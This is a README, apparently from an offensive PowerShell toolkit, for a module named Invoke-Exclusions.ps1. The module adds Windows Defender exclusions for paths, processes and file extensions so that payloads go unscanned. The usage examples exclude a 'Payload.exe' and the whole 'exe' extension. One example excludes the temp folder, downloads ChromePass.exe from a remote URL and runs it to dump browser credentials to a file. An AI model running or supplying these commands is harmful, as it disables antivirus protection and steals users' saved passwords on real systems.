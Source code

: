 ## Module Name
   <b><i>Invoke-Exclusions.ps1</i></b>

|Cmdlet name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Exclusions|Add exclusions to Defender (Set-MpPreference) + Download\Execute -uri 'cmdlet'<br />Exclusion values accepted are : **'ExclusionPath, ExclusionProcess, ExclusionExtension'**|Administrator|[Screenshot](https://null)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Get-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Set-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Remove-MpPreference")
```

```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Force

#Get Exclusions List (terminal)
.\Invoke-Exclusions.ps1 -action "query"

#Get Exclusions List (GUI)
.\Invoke-Exclusions.ps1 -action "query" -Gui "true"


#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"

#Set-MpPreference -ExclusionProcess "C:\Users\pedro\AppData\Local\Temp\Payload.exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "$Env:TMP\Payload.exe"


## Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -OutFile "$Env:TMP\ChromePass.exe"
# 3º - cd $Env:TMP; .\ChromePass.exe /stext credentials.log
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"


#Remove-MpPreference -ExclusionProcess "$Env:TMP\Payload.exe" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "$Env:TMP\Payload.exe"
```
